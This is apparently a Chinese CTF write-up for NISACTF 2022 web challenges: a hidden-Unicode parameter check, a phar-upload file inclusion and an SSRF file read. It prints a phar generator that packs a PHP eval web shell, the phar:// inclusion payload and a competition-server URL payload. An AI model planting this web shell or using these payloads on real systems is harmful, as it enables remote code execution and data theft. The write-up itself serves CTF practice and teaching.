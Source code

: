 ```yaml
---
title: NISACTF2022
date: 2022-3-29 23:10:33
tags: phar
categories: 比赛题目复现
top_img: https://images.wallpaperscraft.com/image/single/ruins_rock_art_269282_1280x720.jpg
cover: https://images2.alphacoders.com/103/thumbbig-103322.webp
---
```


# NISACTF 2022

## checkin

给了源码

```php
<?php
error_reporting(0);
include "flag.php";
// ‮⁦NISACTF⁩⁦Welcome to
if ("jitanglailo" == $_GET[ahahahaha] &‮⁦+!!⁩⁦& "‮⁦ Flag!⁩⁦N1SACTF" == $_GET[‮⁦Ugeiwo⁩⁦cuishiyuan]) { //tnnd! weishenme b
    echo $FLAG;
}
show_source(__FILE__);
?> 
```

其实就是一个不可见字符

拖到编辑器里，复制对应的get参数的16进制编码构造即可

### **payload**

```
http://120.27.195.236:28990/?ahahahaha=jitanglailo&%E2%80%AE%E2%81%A6%55%67%65%69%77%6F%E2%81%A9%E2%81%A6%63%75%69%73%68%69%79%75%61%6E=%E2%80%AE%E2%81%A6%20%46%6C%61%67%21%E2%81%A9%E2%81%A6%4E%31%53%41%43%54%46
```

## bingdundun

存在文件包含，会自动加上`.php`

![](https://i0.hdslb.com/bfs/album/f546544430cbe51f88ce770bccc18c7f067374fd.png)

在根据提示只能上传图片和压缩包，所以判断应该是上传phar文件，在包含phar文件执行恶意代码

phar文件内容

```php
<?php
    $phar = new Phar("exp.phar"); 
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); 
    $phar->addFromString("shell.php", '<?php eval($_POST[shell]);?>'); 
    $phar->stopBuffering();
?>
```

生成phar文件后再改后缀为.zip

上传后获得地址

![](https://i0.hdslb.com/bfs/album/6065278483939f27f39d87173713c7d040a95727.png)

利用phar协议进行包含

```
?bingdundun=phar:///var/www/html/cfd542b4d5b47b4d02051af4a7d87491.zip/shell
```

最后蚁剑连接，根目录下获得flag

## easyssrf

url参数处存在ssrf漏洞，可使用file协议，在读取flag时获得提示

![](https://i0.hdslb.com/bfs/album/b5d9262097aba6d0226b3019e9ed875b921f64c9.png)

![](https://i0.hdslb.com/bfs/album/3d977b9d8db5f15762eee5f6eb23ca2b8258be00.png)

![](https://i0.hdslb.com/bfs/album/a375c08b1454b99bf03e70586f45b845e2e11537.png)

什么都没过滤

### payload

```
?file=/flag
```

![](https://i0.hdslb.com/bfs/album/e0d7fda5cf37d9d0caf092999e182bf0bc0d1e90.png)

## midlevel

buu原题 **[CISCN2019_华东南赛区]Web11**

## in secret

buu原题 **[CISCN2019_华东南赛区]Double_Secret**

## popchain

buu原题**Ezpop**
